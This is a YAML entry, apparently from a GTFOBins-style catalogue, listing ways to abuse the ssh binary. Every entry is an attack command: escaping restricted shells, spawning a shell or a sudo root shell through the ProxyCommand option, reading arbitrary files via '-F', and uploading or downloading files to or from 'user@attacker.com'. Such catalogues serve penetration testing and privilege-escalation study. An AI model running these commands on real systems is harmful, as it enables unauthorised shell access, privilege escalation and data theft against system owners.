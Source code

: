 ```yaml
---
functions:
  execute-interactive:
  - description: Reconnecting may help bypassing restricted shells.
    code: ssh localhost $SHELL --noprofile --norc
  - description: Spawn interactive shell through ProxyCommand option.
    code: ssh -o ProxyCommand="/bin/sh -c 'exec 10<&0 11>&1 0<&2 1>&2; /bin/sh -i'"
      x
  upload:
  - description: Send local file to a SSH server.
    code: |
      HOST=user@attacker.com
      RPATH=file_to_save
      LPATH=file_to_send
      ssh $HOST "cat > $RPATH" < $LPATH
  download:
  - description: Fetch a remote file from a SSH server.
    code: |
      HOST=user@attacker.com
      RPATH=file_to_get
      LPATH=file_to_save
      ssh $HOST "cat $RPATH" > $LPATH
  file-read:
  - description: The read file content is corrupted by error prints.
    code: |
      LFILE=file_to_read
      ssh -F $LFILE localhost
  sudo-enabled:
  - description: Spawn interactive root shell through ProxyCommand option.
    code: sudo ssh -o ProxyCommand="/bin/sh -c 'exec 10<&0 11>&1 0<&2 1>&2; /bin/sh
      -i'" x
---
```

